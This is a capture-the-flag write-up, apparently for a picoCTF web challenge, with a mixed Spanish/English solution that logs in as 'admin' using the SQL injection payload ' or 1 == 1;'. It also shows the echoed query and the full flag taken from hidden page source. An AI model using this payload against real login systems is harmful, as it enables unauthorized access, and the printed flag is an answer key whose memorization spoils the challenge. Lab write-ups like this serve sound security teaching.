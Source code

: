 ## Descripción 
Can you login to this website?

Additional details will be available after launching your challenge instance.
Try to login [here](http://saturn.picoctf.net:60792/).

Hint:
1. `admin` is the user you want to login as.
## Solución 1

Ingresamos a la página e intentamos logearnos, nos dice que no es posible y miramos que tenemos que ingresar con una inyección SQL que la más básica es: ' or 1 == 1;' al ingresar nos dice que no está a simple vista la bandera, nos metemos al código fuente y ahí está

```
Log in
username: admin
password: ' or 1 == 1;'

usamos ctrl+u para ver código fuente

|   |
|---|
|<pre>username: admin|
||password: &#039; or 1 == 1;|
||SQL query: SELECT * FROM users WHERE name=&#039;admin&#039; AND password=&#039;&#039; or 1 == 1;&#039;|
||</pre><h1>Logged in! But can you see the flag, it is in plainsight.</h1><p hidden>Your flag is: picoCTF{L00k5_l1k3_y0u_solv3d_it_d3c660ac}</p>|

flag: picoCTF{L00k5_l1k3_y0u_solv3d_it_d3c660ac}
```

## Referencias 
https://www.w3schools.com/sql/sql_injection.asp